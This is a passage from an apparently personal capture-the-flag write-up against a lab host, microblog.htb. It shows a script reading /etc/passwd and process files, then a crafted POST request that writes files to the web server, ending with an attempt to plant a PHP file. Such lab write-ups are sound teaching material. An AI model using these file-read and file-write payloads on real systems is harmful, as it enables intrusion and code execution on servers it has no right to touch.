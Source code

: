 The result allows me to request files:

```

oxdf@hacky$ python file_read.py /etc/passwd
root:x:0:0:root:\/root:\/bin\/bash
daemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin
...[snip]...
cooper:x:1000:1000::\/home\/cooper:\/bin\/bash
redis:x:103:33::\/var\/lib\/redis:\/usr\/sbin\/nologin
git:x:104:111:Git Version Control,,,:\/home\/git:\/bin\/bash
messagebus:x:105:112::\/nonexistent:\/usr\/sbin\/nologin
sshd:x:106:65534::\/run\/sshd:\/usr\/sbin\/nologin
_laurel:x:997:997::\/var\/log\/laurel:\/bin\/false
oxdf@hacky$ python file_read.py /proc/self/cmdline
php-fpm: pool www

```

#### File Write POC

I’ll find most attempts to write inside the current web directory fail. There is one directory that must be writable, and that’s `/content`. Trying to visit `/content` on a microblog site returns 403:

![image-20230515150546024](/img/image-20230515150546024.png)

I know the site has to be able to write files in this folder. I’ll try to write there with a request like:

```

POST /edit/ HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: efjexomlsilayjqmkqjj.microblog.htb
Cookie: username=90jlpppeeqlelf3fuc5q3efib2
Content-Length: 30
Content-Type: application/x-www-form-urlencoded

id=0xdf.txt&txt=0xdf+was+here!

```

It shows up on the page:

![image-20230515151034665](/img/image-20230515151034665.png)

And visiting `/content/0xdf.txt` downloads the text file.

I’ll try with:

```

id=0xdf.php&txt=<?php+phpinfo();+?>

```
